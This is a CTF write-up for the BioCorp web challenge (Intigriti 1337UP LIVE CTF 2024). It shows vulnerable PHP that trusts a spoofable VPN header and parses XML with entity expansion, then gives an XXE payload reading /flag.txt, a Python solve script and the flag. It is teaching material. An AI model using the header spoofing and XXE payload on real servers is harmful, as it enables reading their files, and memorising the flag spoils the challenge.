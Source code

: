 ```yaml
---
name: BioCorp (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Web
description: Writeup for BioCorp (Web) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# BioCorp

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/hyi_JZvXOTU/0.jpg)](https://youtu.be/hyi_JZvXOTU "X-Forwarded-For Header Spoofing and XXE")

## Challenge Description

> BioCorp contacted us with some concerns about the security of their network. Specifically, they want to make sure they've decoupled any dangerous functionality from the public facing website. Could you give it a quick review?

## Solution

Players will find a basic website, without much functionality.

![](./images/0.PNG)

![](./images/1.PNG)

The challenge includes source code, so let's check it. One thing that stands out immediately is a hidden control panel, only accessible when using a VPN-related header and IP.


```php
$ip_address = $_SERVER['HTTP_X_BIOCORP_VPN'] ?? $_SERVER['REMOTE_ADDR'];
if ($ip_address === '80.187.61.102') {
    echo '<li><a href="panel.php">Control Panel</a></li>';
}
```


We can use the match and replace function in burp to insert the header in all of our requests, or we could use a curl command.

![](./images/2.PNG)

Now we can access the panel.

![](./images/3.PNG)

So, what does the panel do? It displays the XML data from the nuclear equipment. However, it also accepts data via a POST request.


```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && strpos($_SERVER['CONTENT_TYPE'], 'application/xml') !== false) {
    $xml_data = file_get_contents('php://input');
    $doc = new DOMDocument();
    if (!$doc->loadXML($xml_data, LIBXML_NOENT)) {
        echo "<h1>Invalid XML</h1>";
        exit;
    }
} else {
    $xml_data = file_get_contents('data/reactor_data.xml');
    $doc = new DOMDocument();
    $doc->loadXML($xml_data, LIBXML_NOENT);
}

$temperature = $doc->getElementsByTagName('temperature')->item(0)->nodeValue ?? 'Unknown';
$pressure = $doc->getElementsByTagName('pressure')->item(0)->nodeValue ?? 'Unknown';
$control_rods = $doc->getElementsByTagName('control_rods')->item(0)->nodeValue ?? 'Unknown';
```


Classic [XXE](https://portswigger.net/web-security/xxe) vulnerability, we can send something like this to receive the flag.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
```


Alternatively, automated the whole process into a solve script.

### solve.py


```python
import requests

# Target URL and headers
url = "https://biocorp.ctf.intigriti.io/panel.php"
headers = {
    "X-BioCorp-VPN": "80.187.61.102",
    "Content-Type": "application/xml"
}

# XML payload with XXE injection
data = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
"""

# Send the request
response = requests.post(url, headers=headers, data=data)

# Check the response
if response.status_code == 200:
    print("Response received:")
    print(response.text)
else:
    print(f"Request failed with status code {response.status_code}")
```


Flag: `INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}`
